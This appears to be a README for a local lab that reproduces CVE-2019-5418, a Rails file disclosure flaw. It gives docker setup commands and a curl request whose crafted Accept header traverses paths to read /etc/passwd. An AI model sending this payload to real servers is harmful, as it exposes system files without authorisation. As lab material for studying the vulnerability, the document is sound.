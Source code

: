 # Rails

This code is based on [https://chybeta.github.io/2019/03/16/Analysis-for%E3%80%90CVE-2019-5418%E3%80%91File-Content-Disclosure-on-Rails/](https://chybeta.github.io/2019/03/16/Analysis-for%E3%80%90CVE-2019-5418%E3%80%91File-Content-Disclosure-on-Rails/).

Start in this directory (be sure the port 8896 is not used, otherwise change it):

```
docker build -t rails_fi_app . && docker run -d -p 127.0.0.1:8896:3000 -v "$(pwd)"/app:/myapp rails_fi_app
docker exec -ti <id> bash
```
# Check

```
curl -X GET -H 'Accept: ../../../../../../../etc/passwd{{' http://localhost:8896/fileinclusion
```
